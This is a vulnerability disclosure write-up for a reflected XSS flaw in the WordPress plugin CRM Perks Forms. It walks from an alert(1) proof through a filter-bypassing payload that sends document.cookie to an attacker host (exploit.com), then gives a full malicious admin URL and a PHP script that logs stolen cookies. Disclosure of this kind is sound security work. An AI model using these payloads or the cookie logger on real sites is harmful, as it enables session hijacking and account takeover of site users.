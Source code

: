 0x01 Vulnerability description

    There is an XSS(Cross Site Scripting) vulerability in the wordpress plugin called CRM Perks Forms.
    An attacker inserts malicious code into a web-page URL.
    The code is triggered when user clicks the malicious links and move his mouse over the list area on the left of the web-page. 

0x02 Recurrence of the vulnerability

    This is tne main page of the plugin.
    First, click Add-New-Form to create a new form.
![1.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-1.png)

    Choose one template.
![2.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-2.png)

    This is the affected page with XSS vulnerability.
    You can see that my new form id is 66, yours may be 1, it doesn't matter, because I have created it many times.
    So the affected web-page URL is: http://127.0.0.1/wordpress/wp-admin/admin.php?page=cfx-form&form_id=66
    Statement: This URL can be used regardless of whether you have created a form, and the id can be any number.
![3.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-3.png)

    Payload: "onmouseover=alert(1)//
    Enter the payload in the URL bar and move your mouse over the list area on the left of the web-page, an alert pop-up will appear.
    So, there is an XSS vulnerability.
![4.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-4.png)

「EXP」

Purpose: By clicking on the malicious URL link constructed by the attacker and moving mouse, the user will leak his own cookie.

    Change the payload to: "onmouseover=alert(document.cookie)//.
    We can see the user cookie information in the pop-up window.
![5.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-5.png)

    Build a listening server locally to receive the cookie information of the target user.
    Write a PHP script 'getcookie.php' on the server to remotely receive cookie information.
    The function of this script is to write the received cookie into the 'cookie.txt'.
    At this point the payload is: "onmouseover=location.href="http://exploit.com/get.php?cookie="+document.cookie//
    We extend the payload to the URL to make a request, find that there is no user's cookie in the 'cookie.txt' file of the remote server.
    Check the source code of the web-page and find that the '+' in the span tag is filtered.
![8.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-8.png)

    So try to convert '+' to URL encoding '%2B'.
    Construct a new payload: "onmouseover=location.href="http://exploit.com/get.php?cookie="%2Bdocument.cookie//
    Enter payload in the URL bar.
![12.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/2023-04-22_23-12.png)

    Check the source code of the web-page again, '+' is not filtered out.
![9.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-9.png)

    Move my mouse over the list area, the web-page has been redirected.
![10.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-10.png)

    At this point, the user cookie has been sent to the local listening server.
![11.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-11.png)

    Merge the payload and URL to construct a malicious URL link:
    http://127.0.0.1/wordpress/wp-admin/admin.php?page=cfx-form&form_id=66?"onmouseover=location.href="http://exploit.com/get.php?cookie="%2Bdocument.cookie//
    The user causes the leakage of his own cookie by clicking on the malicious link and moving mouse.
    
The simple 'getcookie.php' script:

    <?php
    $cookie = $_GET['cookie'];
    $ip = getenv ('REMOTE_ADDR');
    $time = date('Y-m-d g:i:s');
    $fp = fopen("cookie.txt","a");
    fwrite($fp,"IP: ".$ip." Date: ".$time."\nCookie:".$cookie."\n");
    fclose($fp);
    ?> 



   
    
